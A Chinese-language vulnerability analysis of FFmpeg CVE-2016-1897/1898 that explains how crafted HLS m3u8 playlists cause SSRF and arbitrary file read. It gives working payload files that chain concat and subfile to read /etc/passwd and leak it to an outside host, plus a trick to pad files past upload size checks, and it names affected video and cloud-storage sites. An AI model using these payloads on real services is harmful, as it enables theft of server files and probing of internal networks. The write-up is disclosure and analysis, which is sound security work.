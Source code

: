 # CVE-2016-1897/8 - FFMpeg漏洞分析

**Author:数据流(LeeFly)@伏宸安全实验室**

0x00 前言
=====

这段时间有不少漏洞突然爆发，就像这几天的ImageMagick漏洞，横扫国内互联网。这一两天在乌云`@Noxxx`首先发了两个大厂商的FFmpeg的漏洞，然后也被其他白帽子陆续提交漏洞。影响范围和严重性虽然没有ImageMagick大，但也有不少大厂商中招，而它们共同之处都是处理文件的通用组件程序。可笑的是这个漏洞在上年五月份左右就被公布，并在国外一些CTF比赛中应用；直至现今国内的大厂商基本也都存在该漏洞。

FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

0x01 漏洞概述
=====

在FFMpeg2.X 由于在解析HTTP Live Streaming流媒体m3u8文件处理不当，可导致SSRF漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用FFMpeg进行处理时会触发该漏洞。

这个漏洞有两个CVE编号，分别是CVE-2016-1897和CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897只能读取文件的第一行，而CVE-2016-1898可以读取文件任意行，原理基本一样，这里就一起分析了。

0x02 HLS（HTTP Live Streaming）
=====

由于漏洞是出现在解析HLS流媒体文件出的问题，所以我们必须先了解HLS。

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

![](http://drops.javaweb.org/uploads/images/9ab383d998c3bf4a783f113e6731dad1be71be16.jpg)

如图所示，有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

`http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128`

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST

```

解析：

*   #EXTM3U 标签是m3u8的文件头，开头必须要这一行
*   #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
*   #EXT-X-VERSION:2 该标签可有可无
*   #EXTINF:6, 表示该一段TS流文件的长度
*   #EXT-X-ENDLIST 这个相当于文件结束符

这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。

0x03 漏洞原理
=====

SSRF漏洞：

直接用FFMpeg解析一个多媒体文件

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://192.168.123.100:8080/1.html
#EXT-X-ENDLIST

```

（#EXT-X-MEDIA-SEQUENCE或#EXT-X-TARGETDURATION必须存在任意一个，前者是定义ts流文件的序号。去掉会报错：无效文件）

![](http://drops.javaweb.org/uploads/images/23511a2909030435f1e49f7b2149b77267aed2cd.jpg)

`ffmpeg -i test.m3u8 test.mp4`（也可把m3u8格式改成其他后缀，ffmpeg会自动识别为HLS流文件）

![](http://drops.javaweb.org/uploads/images/c75f722d74a1a66732ee5221a0d98eba98ab95de.jpg)

直接发起了http请求，这就造成一个SSRF。

结合SSRF任意文件读取：

FFMpeg支持很多扩展协议，其中的concat:协议可以合并多个流URL，官方称为Physical concatenation protocol

这样可以合并多个URL`concat:URL1|URL2|...|URLN`

新建一个主HLS文件h.m3u8在web服务器

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://xxx/test.txt|http://xxx/test.txt （这两个txt都是m3u8,后缀可以随便改，ffmpeg会自动识别）
#EXT-X-ENDLIST

```

再创建一个下级的m3u8文件 test.txt，最终的请求会引到最下级的m3u8文件,也就是这个test.txt

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://xxx.com/?

```

再用ffmpeg处理test.m3u8

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://xxx/h.m3u8
#EXT-X-ENDLIST

```

![](http://drops.javaweb.org/uploads/images/635af3b464995f697787bac439b2d11266451445.jpg)

提示当读取第一段的时候出错，URL是`http://xxx/?#EXTM3U`，但我们建立的那个下级的m3u8文件 test.txt是`http://xxx.com/?`，多出来的“`#EXTM3U，`”这部分是用concat协议合并的那个txt，`http://xxx/test.txt`的第一行；而ffmpeg支持多种协议获取输入流，http、ftp、smb、file等，既然用concat协议可以读取文件的第一行，那把http换成file协议就可以读取本地文件了，漏洞就出在这里。

主m3u8文件改成`concat:http://xxx/test.txt|file:///etc/passwd`，再请求就能读取到passwd文件的第一行，当然也可以读取内网网站的信息。

![](http://drops.javaweb.org/uploads/images/fc009ae85f282f0df435b63bd63da4868c6d1b99.jpg)

但这样就只能读取一行，意义不大。但FFMpeg支持一个截取数据流片段的功能：subfile。用法：`subfile,,start,153391104,end,268142592,,:/media/dvd/VIDEO_TS/VTS_08_1.VOB`

Start后是开始截取的偏移量，以字节为单位，end是结束的偏移量。

既然可以截取数据流就可以利用subfile获取比较完整的文件了。测试时候一次最多只能截取32字节，所以要继续用concat合并多个数据流片段。

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://198.56.193.29:8080/test.txt|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST

```

这样就可以读取任意文件的任意内容

![](http://drops.javaweb.org/uploads/images/3771a177be181f524f27a8e186fdb3913f5e906c.jpg)

0x04 绕过大小检测
=====

之前的ImageMagick漏洞因为有些网站有文件大小检测而无法攻击，在这个漏洞中的测试我也发现一些网站有对上传视频文件的大小限制。这里有方法可以扩充文件大小。

![](http://drops.javaweb.org/uploads/images/97e7fa44b663635a212be0dec594a086e4e44a5b.jpg)

直接扩充#EXTINF，这个标签前面说过，是代表TS流文件的时间长度，可以无限扩充，直到符合大小为止，仍可正常解析。

0x05 漏洞影响
=====

我测试了国内的很多云盘与视频网站，都存在包括@Noxxx先提交的百度云盘，360原盘等，后来我测试了ku6，爱奇艺，56，搜狐等等都存在该问题，爱奇艺的我已经提交了，另外发现的很多也就没必要再提交了，刷洞没意思，提交一个案例警示一下就足够了。

以下总结一下在乌云报告过的FFMpeg漏洞：[百度云盘文件读取/SSRF](http://www.wooyun.org/bugs/wooyun-2010-0205320)、[360云盘文件读取/SSRF](http://www.wooyun.org/bugs/wooyun-2010-0205343)、[爱奇艺主站某处FFmpeg漏洞可导致任意文件读取](http://www.wooyun.org/bugs/wooyun-2010-0205669)、[56视频FFmpeg解析漏洞导致SSRF](http://www.wooyun.org/bugs/wooyun-2016-0205699)、[搜狐视频ffmpeg漏洞可文件读取/SSRF](http://www.wooyun.org/bugs/wooyun-2016-0205709)、[盛大某站存在SSRF可读取本地文件&探测内网](http://www.wooyun.org/bugs/wooyun-2016-0205719)等等

总的来说威胁还是蛮大的，很多大型厂商都中枪。之前上传图片会被搞，现在上传视频也会被搞。这些处理文件的通用程序真是黑客的乐土啊。

0x06 漏洞修复
=====

目前该漏洞已在FFMpeg**2.8.5**中修复，请广大用户马上升级。